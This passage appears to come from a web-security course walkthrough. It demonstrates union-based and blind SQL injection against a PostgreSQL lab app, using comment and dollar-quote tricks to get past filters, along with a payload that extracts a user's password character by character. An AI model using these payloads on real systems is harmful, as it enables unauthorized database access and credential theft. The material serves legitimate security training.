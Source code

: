 ## Union-Based SQL Injection

At this point we have a `PoC` for `blind SQL injection`, but we don't have to stop there. Coming back to the `single quotes`, we can get around this filter by expressing strings differently. `PostgreSQL` allows you to use `two dollar-signs` to mark the start and end-points of a string for better readability, and we can use this to get around the `RegEx` pattern matching `single quotes` and develop a `PoC` payload for `union-based SQL injection`.

So we would want to try the payload `' union select '1','2','3'--`, but after replacing `spaces` and `single quotes` it would look like: `'/**/union/**/select/**/$$1$$,$$2$$,$$3$$--`. After submitting this we get an `"Invalid Search Query"` error. Taking a look at the `PostgreSQL` logs (which we previously enabled) we can see that the statement failed because the first and second selects have a different number of columns.

```shell
tail /opt/bluebird/pg_log/postgresql-2023-02-15_052440.log
<SNIP>
2023-02-15 06:27:18.389 EST [14374] bbuser@bluebird ERROR:  each UNION query must have the same number of columns at character 67
2023-02-15 06:27:18.389 EST [14374] bbuser@bluebird STATEMENT:  SELECT * FROM users WHERE username LIKE '%'/**/union/**/select/**/$$1$$,$$2$$,$$3$$--%'
<SNIP>

```

We can check the code to find the correct number of columns, or we can simply keep adding one until we succeed. Either way, the correct number of columns is `6` and so once we try the payload `'/**/union/**/select/**/$$1$$,$$2$$,$$3$$,$$4$$,$$5$$,$$6$$--` we should see that the `union-based SQL injection` was successful!

![](AhcAN4grtPoF.png)

## Comparative Precomputation (Blind SQLi)

Although we already proved that `union-based SQL injection` is possible in this specific case, let's pretend that we were restricted to `blind SQL injection` for a moment. Using typical algorithms to dump characters from the database, `7 requests` are required per character on average (e.g. the `bisection` algorithm that [sqlmap](https://sqlmap.org/) uses). In some cases however, it may be possible to (blindly) dump `1 or more characters per request`.

Take the following payload for example:

```sql
' AND id=(SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='itsmaria')--

```

It will only match one user, and that is the user whose `id` equals the `ascii value` of the `first character` of `itsmaria's password`. If we swap out the `spaces` and `single quotes` to bypass the character filters, our payload will look like this:

```sql
'/**/AND/**/id=(SELECT/**/ASCII(SUBSTRING(password,1,1))/**/FROM/**/users/**/WHERE/**/username=$$itsmaria$$)--

```
